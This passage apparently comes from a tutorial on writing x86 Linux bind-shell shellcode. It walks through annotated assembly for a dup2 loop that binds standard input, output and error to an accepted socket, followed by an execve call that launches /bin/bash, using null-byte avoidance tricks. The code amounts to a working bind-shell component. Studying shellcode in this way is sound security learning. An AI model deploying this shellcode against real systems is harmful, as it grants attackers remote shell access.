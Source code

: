As you can see, ESI is once again saving the value of EAX, exactly as when we started. This is due to the fact that now the file descriptor for socket is no longer required. And 
now it is important to use the accept() file descriptor for the next syscalls.

##### Dup2

###### Duplicate a file descriptor

We now may have a bind shell. However, this is completely useless if it isn't functional, right? This is where dup2 comes in, our little friend will iterate 3 times in order to 
copy into our accepted connection the STDIN (0), STDOUT (1), and STDERR (2) file descriptors, therefore making the shell interactive. There are two ways to perform this task, 
either copying and writing three times or performing a loop. The latter sounds more fun, right? ECX will be used with a JNZ (jump if the zero flag (ZF) is not set) instruction 
as well, performing a loop which will not stop until ECX reaches to zero through a dec cl instruction.

```term
       mov cl, 3              ; Starts counter for dup2
       
dup2:
       push word 63           ; Pushes word 63 (dup2) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov ebx, esi           ; Copies the value from ESI to EBX, granting EBX the sockfd value from the accept syscall.
       dec cl                 ; Decrements cl in order to set the zero flag (ZF)
       int 0x80               ; Call to kernel

       jnz dup2               ; Jump if the zero flag (ZF) is not set, this will continue the loop 3 times.
```

##### Execve

###### Execute program

This may be the last syscall to be initialized, yet it is the most important, no shell, no access! The process is quite simple, a group of three dwords containing the string 
```////bin/bash``` will be copied into ebx through PUSH and MOV instructions. Moreover, the value of EDX will be set to 0, as envp is not required. Finally, as ECX needs to 
point to the string, EBX will be pushed into the stack, therefore ECX copying its value through a MOV instruction.

```term
execve:

       xor eax, eax           ; Zeroes out EAX
       push eax               ; Pushes EAX (0x00000000)

       PUSH 0x68736162        ; hsab
       PUSH 0x2f6e6962        ; /nib
       PUSH 0x2f2f2f2f        ; ////

       mov ebx, esp           ; Copies the pushed instructions into EBX.
       push eax               ; Pushes EAX (0x00000000)

       mov edx, esp           ; Copies the value of ESP (0x00000000) into EDX, giving envp[] a value of 0

       push ebx               ; Pushes ////bin/bash into the stack
       mov ecx, esp           ; Copies such value to ECX
       push word 11           ; Pushes word 11 (execve) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       int 0x80               ; Calls to kernel
```
